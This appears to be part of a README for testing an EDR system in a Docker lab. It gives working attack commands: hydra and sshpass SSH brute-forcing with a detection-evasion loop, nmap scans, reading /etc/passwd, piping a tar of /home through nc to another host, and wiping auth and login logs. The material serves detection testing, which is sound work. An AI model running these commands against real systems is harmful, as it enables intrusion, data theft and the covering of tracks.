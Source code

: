 ## 🎯 Advanced Testing Scenarios

### Multiple Concurrent Attacks
```bash
# Parallel brute force
hydra -L /tmp/userlist.txt -P /tmp/passwords.txt ssh://172.19.0.2 -t 8 &
nmap -sS 172.19.0.2 &
nc -l -p 5555 &
```

### Custom Attack Patterns
```bash
# Slow brute force to evade detection
for user in testuser admin root; do
  for pass in password 123456 admin; do
    echo "Trying $user:$pass"
    sshpass -p "$pass" ssh -o ConnectTimeout=3 "$user@172.19.0.2" exit
    sleep 2
  done
done
```

### Attack Chain Simulation
```bash
# 1. Reconnaissance
nmap -sV 172.19.0.2

# 2. Brute force
hydra -l testuser -p 123456 ssh://172.19.0.2

# 3. Lateral movement 
sshpass -p '123456' ssh testuser@172.19.0.2 'cat /etc/passwd'

# 4. Data exfiltration
sshpass -p '123456' ssh testuser@172.19.0.2 'tar czf - /home' | nc 172.19.0.4 6666
```

## 📝 Best Practices

1. **Always verify network connectivity** trước khi attack
2. **Monitor EDR logs real-time** trong quá trình test  
3. **Document attack vectors** và detection results
4. **Clean up logs** giữa các test sessions
5. **Test multiple attack patterns** để verify coverage

## 🔄 Reset Environment
```bash
# Reset target container
docker-compose restart ubuntu-agent

# Clear logs
docker exec deploy-ubuntu-agent-1 bash -c "
> /var/log/auth.log
> /var/log/syslog  
> /var/log/btmp
> /var/log/wtmp
"

# Restart EDR server
docker-compose restart edr-server
```

---
